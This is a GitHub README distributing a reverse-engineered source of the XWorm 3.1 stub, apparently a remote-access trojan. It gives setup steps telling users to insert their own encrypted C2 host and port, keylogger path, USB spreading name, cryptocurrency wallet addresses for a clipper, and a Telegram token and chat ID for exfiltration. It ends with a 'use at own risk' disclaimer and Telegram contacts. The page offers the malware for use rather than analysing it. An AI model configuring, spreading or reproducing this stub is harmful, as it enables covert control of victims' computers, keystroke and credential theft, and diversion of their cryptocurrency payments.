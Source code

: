 <h1 align="center">XWorm 3.1 Stub VB Source</h1>
<p align="center">
  <img src="https://img.shields.io/badge/Version-3.1-black" >
  <img src="https://img.shields.io/badge/Language-VB.Net-blueviolet" >
  </a>
</p>

> This is a Reverse of XWorm 3.1 Stub

<p align="center"> 
  <kbd>
<img src="https://repository-images.githubusercontent.com/535097456/7e0fd6ca-d04e-42ad-96dd-51ac51b2de02" width="200"></img>
  </kbd>
</p>

## ⭐ 〢 About

- XWorm 3.1 Stub has been written in Visual Basic .NET (VBNet)
- The framework is .NET Framework 4

## ⚙ 〢 Stub Setup
You have to insert your credentials into [Settings.vb](https://github.com/MJMODZZ-V3/XWorm-3.1-Stub/blob/main/XClient/Settings.vb)
```vb
Public Shared Host As String = "F/tfZzFppp9x5QHFBzGQ5g=="
Public Shared Port As String = "8i2B8TYZ/fJYVyZHXnyFNQ=="
Public Shared KEY As String = "nMNn7EkSZBLlLvxkG47f7w=="
Public Shared SPL As String = "FbuPiG/lAvstu/uuwwtJ4A=="
Public Shared Sleep As Integer = 3
Public Shared USBNM As String = "2PSDpjsZsTat9LhxY4tRRukfxGRYMNAJhOll3SNZ8ew="
Public Shared InstallDir As String = "%AppData%"
Public Shared Mutex As String = "qXzidyu4ousTTWUi"
Public Shared LoggerPath As String = Interaction.Environ("temp") + "\Log.tmp"
Public Shared BTC As String = "tOx6IuMolYUhfsHJsu5Z1g=="
Public Shared ETH As String = "ndhF76qlkszHUOcQqSl5YA=="
Public Shared TRC As String = "7PU4ujODwq98o82/mj/DBA=="
Public Shared Token As String = "NRB/KWWGer6VXNEgvpy5jQ=="
Public Shared ChatID As String = "VByLXvlZt5Qi5B1iHDJ14Q=="
```
Most of them need to be encrypted with AES

## ⚠ 〢 Disclaimer
- This is a reversed stub, some code is maybe corrupted or doesnt work. There is no support for this
> **Warning**
> Im not responsible for any demages caused by this Software / Stub, use at own risk

## 💬 〢 Contact
- Make sure to join my [Telegram](https://t.me/PegasusOrganization)
- My Telegram is [@x01337](https://t.me/x01337)

## ⭐ 〢 Make sure to give the reposetory a star if it helped you
